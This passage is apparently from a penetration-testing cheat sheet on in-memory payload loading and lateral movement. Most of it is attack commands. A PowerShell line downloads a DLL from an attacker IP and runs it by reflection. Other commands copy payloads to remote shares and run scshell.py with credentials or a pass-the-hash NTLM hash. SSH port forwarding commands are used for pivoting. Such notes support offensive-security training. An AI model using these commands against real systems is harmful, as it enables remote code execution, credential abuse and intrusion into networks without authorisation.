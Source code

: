 ### Execute a specific method from an assembly (e.g. a DLL)
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
<br>

# Lateral_Movement

<br>

## Fileless_Movement


- [lateralmovement](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement)
```
- copy .\payload.exe \\server\share$\windows\tasks
or
- $sess = New-PSSession -ComputerName <Name>
- Copy-item -path C:\users\puublic\payload.ps1 -destination 'C:\users\public\payload.ps1' -tosession $sess
```
<br>

```
latmov.exe <server> senorservice "c:\windows\tasks\payload.exe"
or
proxychains python scshell.py -service-name Sensorservice DOMAIN/USERNAME:PASSWORD@ComputerIP
proxychains python scshell.py -service-name Sensorservice DOMAIN/USERNAME@ComputerIP -hashes 00000000000000000000000000000000:aec2214937bedcfa722c4123ca859423
```

<br>


## SSH

### Local Port Forwarding:
```bash
ssh user@KillaOcean -L 127.0.0.1:5577:127.0.0.1:5577
```
<br>

## Remote Port Forwarding:

```bash
ssh user@KillaOcean -R 127.0.0.1:5577:127.0.0.1:22
```
<br>
